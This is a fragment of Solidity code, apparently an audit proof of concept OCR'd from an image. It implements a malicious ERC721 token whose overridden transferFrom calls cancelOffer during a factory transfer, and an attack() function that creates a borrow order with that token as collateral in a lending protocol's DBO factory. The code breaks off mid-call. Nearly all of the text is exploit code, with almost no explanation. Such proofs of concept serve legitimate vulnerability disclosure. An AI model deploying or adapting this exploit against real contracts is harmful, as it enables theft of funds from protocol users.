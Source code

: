 ```solidity

    // function for erc721 to recieve erc721
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes memory data
    ) public returns (bytes4) {

        return this.onERC721Received.selector;
    }

    // override transferFrom to call cancelOffer of malicious erc721 borrow order created in attack,
    // and than transfer the tokens to pass the require 

    function transferFrom(
        address from,
        address to,
        uint256 tokenId
    ) public override {

        
        if(msg.sender == factoryAddress){
            IDBOImplementation(to).cancelOffer(); 
            super.transferFrom(from, to, tokenId);
        }
    }

    function attack() public {

        allDynamicData = new DynamicData();

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = 5e17;
        oraclesActivated[0] = false;
        ltvs[0] = 0;
        acceptedPrinciples[0] = Alice;
        oraclesPrinciples[0] = address(0x0);

        IERC721(address(this)).approve(address(factoryAddress), receiptID);

        // malicious erc721 creates a borrow order with malicious erc721
        address borrowOrderAddress = IDBOFactory(factoryAddress).createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            864000,
            acceptedPrinciples,
            address(this),
            true,
            receiptID,
            oraclesPrinciples,
            ratio,
```